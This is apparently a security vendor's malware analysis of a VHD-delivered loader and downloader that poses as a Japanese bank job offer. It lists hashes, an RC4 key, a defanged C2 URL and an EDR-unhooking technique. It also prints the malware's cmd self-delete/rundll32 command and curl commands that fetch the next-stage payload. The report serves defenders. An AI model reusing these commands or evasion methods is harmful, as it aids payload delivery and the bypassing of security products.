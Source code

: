
Based on our other findings, we discovered an in-the-wild sample (MD5 a17e9fc78706431ffc8b3085380fe29f) from VirusTotal. At the time of analysis, this .vhd sample wasn’t detected by any antivirus. The virtual disk file contains a decoy PDF file, Windows executable file, and an encrypted Dump.bin file. The PDF and executable files have numerous spaces before the file extension to hide it and allay suspicions.

Files inside VHD a file
The Job_Description[spaces].exe file (MD5 931d0969654af3f77fc1dab9e2bd66b1) is a loader that loads the next stage payload. Upon launch, it copies the ​Dump.bin file to the ​%Templates%\war[current time][random value].bin (i.e., war166812964324445.bin). The Dump.bin has a modified PE header. The malware reads the first byte of Dump.bin, 0xAF in this file, and decodes 0x3E8 bytes with that key. The decrypted data is the header of a PE file, overwriting the recovered header to the original file. Eventually, it loads the decrypted DLL file by spawning the ordinary first export function.
The spawned downloader contains an encrypted configuration at the end of the file. The malware first acquires the total size of the configuration data and the length of the payload URL from the end of the file. They are located four bytes and eight bytes from the end of the file, respectively. The malware decrypts the configuration data with the RC4 algorithm using an embedded 64-byte key.

RC4 key: 46 61 44 6D 38 43 74 42 48 37 57 36 36 30 77 6C 62 74 70 79 57 67 34 6A 79 4C 46 62 67 52 33 49 76 52 77 36 45 64 46 38 49 47 36 36 37 64 30 54 45 69 6D 7A 54 69 5A 36 61 42 74 65 69 67 50 33
Restored URL: hxxps://docs.azure-protection[.]cloud/EMPxSKTgrr3/2CKnoSNLFF/0d6rQrBEMv/gGFroIw5_m/n9hLXkEOy3/wyQ%3D%3D


Structure of configuration
In the case of another downloader, however, the payload URL was delivered using a command line parameter. Also, some of the other downloaders (MD5 f766f97eb213d81bf15c02d4681c50a4) have functionality that checks the working environment. If the size of physical memory is less than 2,147,483,648 bytes, the malware terminates execution.

Infection flow of downloader
This downloader checks for the names of the following antivirus vendors: Sophos, Kaspersky, Avast, Avira, Bitdefender, TrendMicro, and Windows Defender. If TrendMicro, BitDefender, or Windows Defender products are installed, the malware conducts a classic unhooking DLL trick intended to remove user-mode hooks from the system library. This evasion technique overwrites the .text section of the pre-loaded ntdll library with the freshly loaded one so that the hooked API addresses are recovered with the original API address. With this trick, the malware can disable the functionalities of EDR/AV products. Next, the malware creates a mutex to avoid duplicate execution.

Mutex name: da9f0e7dc6c52044fa29bea5337b4792b8b873373ba99ad816d5c9f5f275f03f

Next, the malware opens a PDF decoy document in the same directory. The decoy document masquerades as a job offer from a Japanese multinational bank.
If Windows Defender or Bitdefender Antivirus is installed on the victim’s computer, the malware executes itself with the following commands:

Windows Defender: cmd /c timeout /t 10 & Del /f /q \”[current file name]\” & attrib -s -h \”[PDF decoy file]\” & rundll32 \”[current DLL file path]\” #1
Bitdefender: cmd /c timeout /t 10 & rundll32 \”[current DLL file path]\” #1

The primary objective of this malware is to fetch the next stage payload. To do this, the malware uses the cURL library, combining cURL commands depending on the antivirus installed.

Avira or Avast installed: curl -A cur1-agent -L [payload URL(| -x proxy URL)] -s -d da
Other cases: curl -A cur1-agent -L [payload URL(| -x proxy URL)] -s -d dl
